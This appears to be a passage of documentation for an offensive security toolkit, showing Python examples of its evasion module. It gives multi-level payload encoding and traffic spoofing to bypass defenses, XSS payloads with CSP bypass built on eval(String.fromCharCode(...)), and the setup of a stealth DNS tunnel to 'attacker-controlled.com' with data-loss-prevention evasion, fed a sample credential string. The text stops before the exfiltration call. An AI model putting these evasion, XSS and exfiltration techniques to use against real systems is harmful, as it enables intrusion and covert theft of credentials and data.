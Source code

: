 ```python
# Stage 3: Advanced encoding and obfuscation
encoded_payloads = []
for payload in payloads:
    encoded = payload_encoder.multi_level_encode(
        payload, 
        methods=["url", "unicode", "hex"],
        obfuscation_level=4
    )
    encoded_payloads.append(encoded)

# Stage 4: Traffic manipulation
traffic_config = traffic_obfuscator.generate_stealth_profile(
    mode="enterprise",
    user_agent_rotation=True,
    header_spoofing=True,
    protocol_downgrade=True
)

# Result: 95% higher bypass success rate than standard techniques
```

### 🚀 **JavaScript Context-Aware XSS Evasion**
```python
# Advanced XSS payload generation with context awareness
from cai.tools.evasion import javascript_payload_generator

# Context-aware payload generation
xss_payloads = javascript_payload_generator.generate_context_payloads(
    contexts=["html", "attribute", "script", "json"],
    evasion_level=5,
    browser_compatibility="modern",
    csp_bypass=True
)

# Sample generated payload for HTML context:
# <svg/onload=eval(String.fromCharCode(97,108,101,114,116,40,49,41))>

# Sample generated payload for script context:
# ');/*\u002a/eval(/*\u002a*/String.fromCharCode(97,108,101,114,116,40,49,41));//\u002a

# Advanced evasion techniques applied:
# - Unicode encoding
# - Comment insertion
# - String obfuscation
# - Context-specific syntax
```

### 🔍 **Stealth DNS Exfiltration**
```python
# Covert data exfiltration via DNS tunneling
from cai.tools.evasion import stealth_dns_exfiltration

# Setup covert channel
exfil_config = stealth_dns_exfiltration.setup_dns_tunnel(
    domain="attacker-controlled.com",
    encoding="base32",
    chunk_size=63,  # DNS label length limit
    delay_jitter=True,
    dlp_evasion=True
)

# Exfiltrate sensitive data
sensitive_data = "database_credentials:admin:password123"
```
